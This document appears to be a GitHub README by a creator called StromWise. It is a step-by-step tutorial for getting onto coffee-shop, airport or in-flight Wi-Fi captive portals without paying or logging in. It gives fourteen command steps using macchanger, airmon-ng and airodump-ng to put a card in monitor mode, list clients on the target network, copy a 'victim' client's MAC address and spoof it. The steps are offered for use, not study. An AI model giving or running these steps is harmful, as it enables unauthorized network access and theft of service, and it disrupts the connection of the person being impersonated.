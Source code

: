 # HOW TO SET YOUR MAC ADDRESS OF A WIFI/NETWORK SAME AS OF YOUR VICTIM TO CONNECT TO A CAPTIVE PORTAL 

AT COFFEE SHOP/AIRPORT/AEROPLANE/PUBLIC WIFI TO ACCESS FREE WIFI WITHOUT ENTERING USERNAME-PASSWORD. 

STEP 1-  sudo ip a 

STEP 2-  sudo ifconfig wlan1 down  (type the interface of the network card of which you want to change mac address)

STEP 3-  sudo macchanger -r wlan1  (-r = to change the mac address randomly)

STEP 4-  sudo ifconfig wlan1 up

STEP 5-  sudo airmon-ng start wlan1

STEP 6-  sudo ip a  (to check that the network interface in monitor mode)

STEP 7-  sudo airodump-ng wlan1mon 

STEP 8-  sudo airodump-ng wlan1mon -bssid 00:00:00:00:00:00 -c 0 (-c =? .....--bssid = ? enter the bssid/mac address of the victim free captive portal wifi )

STEP 9-  Now you will get all the clients that are on that network you can choose one and then copy the MAC Address of that client.

STEP 10- sudo ifconfig wlan0 down (now enter the second network interface so that we can change the mac address of the same )

STEP 11-  sudo macchanger -m 00:00:00:00:00:00 wlan0 (-m = to specify the mac address you want, enter the address here which you copied from the victim)

STEP 12-  sudo ifconfig wlan0 up

STEP 13-  sudo ip a

Step 14- now connect to the free wifi/captive portal and try to access enter it will not ask you to enter the username/password to access the wifi.







____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________

